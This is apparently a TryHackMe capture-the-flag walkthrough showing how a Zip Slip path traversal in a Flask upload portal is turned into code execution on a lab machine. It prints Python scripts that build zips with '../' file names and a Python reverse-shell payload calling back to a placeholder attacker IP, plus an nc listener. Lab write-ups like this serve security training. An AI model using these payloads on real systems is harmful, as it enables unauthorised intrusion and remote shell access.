# The Hollow Shell TryHackMe walkthrough

---

During our **Day 10** of Hacker’s Holidays we’ll exploit a Zip Slip vulnerability in a hotel’s file upload portal, using path traversal to drop a payload where a background worker will pick it up and execute it, turning an arbitrary file write into a reverse shell.


## Step 1: Recon

Nmap revealed that ports 22 and 5000 are open.


```bash
nmap 10.67.130.0
```




and Gobuster against the web app found /upload responding 405 Metod Not Allowed on GET, which means that a POST-only endpoint existed but wasn't linked from anywhere visible.


```bash
gobuster dir -u http://10.67.130.0:5000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_http.txt
```




So, I checked the page source which revealed the credentials:




```yaml
concierge : StayNoticed2024!
```


## Step 2: Logging in and understanding the logic

With credentials at hand, I logged in and got access to /dashboard staff portal.



The dashboard has a “Bring a shell ashore” feature that lets staff upload a zip file, which the app calls a “shell.” Each one needs a shell.json file listing: a name and a set of assets like images or stylesheets.

The page also mentioned optional automation hooks, applied shortly after upload by something called the theme worker. That line turned out to be the biggest clue in the whole challenge — it meant a separate background process was watching for new files and doing something with them automatically, independent of the upload itself.

So, I created a test file in my AttackBox and uploaded it to see what happens:


```bash
cd
 ~
mkdir
 shell_test && 
cd
 shell_test
printf
 
'{"name": "test", "assets": []}'
 > shell.json
cat
 shell.json
zip test.zip shell.json
```




It returned /shells/9f435d0b4e6/ right below.



This revealed the storage organization: each upload is extracted into /shells/random\_hex\_id/ , and files are served back via:


```bash
GET /shells/<id>/<filename>
```


## **Step 3: Discovering the Zip Slip (write primitive)**

Normally, zip tools block file names containing “../” (a way of saying “go up a folder”), so files can’t escape the folder they’re extracted into. But if a developer writes their own extraction code instead of using the safe built-in method, that check often gets skipped — and a name with “../” is taken literally, writing the file wherever it points, even outside the intended folder. This bug is known as Zip Slip.

Since the standard zip command won’t let you add “../” to a file name, I used Python directly, which has no such restriction:


```bash
cat > slip.py << 
'EOF'
import
 zipfile
zf = zipfile.ZipFile(
'slip.zip'
, 
'w'
)
zf.writestr(
'shell.json'
, 
'{"name": "slip-test", "assets": []}'
)
zf.writestr(
'../marker.txt'
, 
''
)
zf.
close
()
EOF
python3 slip.py
```


After uploading, the “Shells on display” list showed a new entry called marker.txt sitting one level above where it should have been — at shells/marker.txt/ instead of inside its own shell folder. That was the first sign the traversal was working.



However, I couldn’t read the file’s actual contents back through the browser, because the part of the app that serves files blocked traversal on reads. So I needed cleaner confirmation.

I built a second test zip, this time aiming two levels up and into the app’s static folder (Flask apps serve a static folder at /static/ by default), which is openly readable through the browser:


```bash
cat > zipslip_proof.py << 
'EOF'
import
 zipfile
zf = zipfile.ZipFile(
'zipslip-proof.zip'
, 
'w'
)
zf.writestr(
'shell.json'
, 
'{"name": "zipslip-proof", "assets": []}'
)
zf.writestr(
'../../static/zipslip-proof.css'
, 
'ZIP_SLIP_CONFIRMED'
)
zf.
close
()
EOF
python3 zipslip_proof.py
```




I used a .css extension because the dashboard listed css as an allowed asset type, making it less likely to be filtered, and because Flask serves static files including CSS directly through the browser

After uploading and checking URL directly in the browser, it returned:



Confirming zip slip gave me an arbitrary file write — but that’s only useful if there’s somewhere worth writing to.

Now let’s look at the dashboard hints again:

> A shell may include optional automation hooks — the theme worker applies these for you shortly after the shell comes ashore, so you don’t have to touch each tablet by hand. Allowed asset types: png jpg gif svg css json.

It means a background process was running independently, watching somewhere for files to act on. The most natural place for that would be a folder called hooks, sitting at the app root alongside static/ and shells/.

If that folder existed, and the worker ran any Python file it found there, dropping a script into it via the same zip slip technique would be enough to get code execution — no user interaction, no trigger button, just wait for the worker’s next check.

To confirm hooks/ existed at that level, I used the same approach as before — I uploaded a zip targeting ../../hooks/callback.py and got a clean success response. Earlier tests had shown that writing to a non-existent folder caused a 500 error, so a clean response here meant the folder was there.



Clean success — no 500 error, which confirms hooks/ exists at that traversal depth.

## Step 4: Getting a reverse shell

With the target identified, I set up a listener on my Attack box.


```bash
nc -lvnp 4444
```


Then I created the payload files and built the zip. Note that callback.py must be edited with your actual attacker IP before building the zip — if you build it first and edit after, the zip will contain the old placeholder and the shell will never connect back.

Create the manifest:


```bash
cat
 > shell.json << ‘EOF’
{
 “name”: “zipslip-rs”,
 “assets”: []
}
EOF
```


Create the payload with your attacker IP:


```bash
cat > callback.py << 
'EOF'
import
 socket, os, 
pty
sock
 
=
 socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((
"YOUR_ATTACKER_IP"
, 
4444
))
for
 fd 
in
 
(
0
, 
1
, 
2
)
:
    os.dup2(sock.fileno(), fd)
pty.spawn(
"/bin/bash"
)
EOF
```

```bash
cat > build_shell.py << 
'EOF'
import zipfile
zf = zipfile.ZipFile(
'reverse-shell.zip'
, 
'w'
)
zf.writestr(
'shell.json'
, 
open
(
'shell.json'
).
read
())
zf.writestr(
'../../hooks/callback.py'
, 
open
(
'callback.py'
).
read
())
zf.
close
()
EOF
python3 build_shell.py
unzip -l 
reverse
-shell.zip
```




Now upload the shell and get your connection. The flag is in /home/roomservice folder.



Missed the previous challenges? You can find the solutions for [**Day 1**](https://crystalcascade14.medium.com/the-concierge-knows-too-much-tryhackme-walkthrough-a73a3b65aba6) , [**Day 2**](https://medium.com/@crystalcascade14/room-404-tryhackme-walkthrough-aa32146fafba), [**Day 3**](https://medium.com/@crystalcascade14/complimentary-tryhackme-walkthrough-0282c00a700c), [**Day 4**](https://medium.com/@crystalcascade14/packed-light-tryhackme-walkthrough-83390b1f2117), [**Day 5**](https://medium.com/@crystalcascade14/beach-bar-tryhackme-walkthrough-5fbc8e0989c1)**,** [**Day 6**](https://medium.com/@crystalcascade14/overheard-at-breakfast-tryhackme-walkthrough-ad503524e298), [**Day 7**](https://medium.com/@crystalcascade14/do-not-disturb-tryhackme-walkthrough-7fefb6d0eda0), [**Day 8**](https://medium.com/@crystalcascade14/towel-on-sunbed-tryhackme-walkthrough-23444dd3e24e) **and** [**Day 9**](https://medium.com/@crystalcascade14/cryptocabana-tryhackme-walkthrough-45eda0c8ec8a)**.**

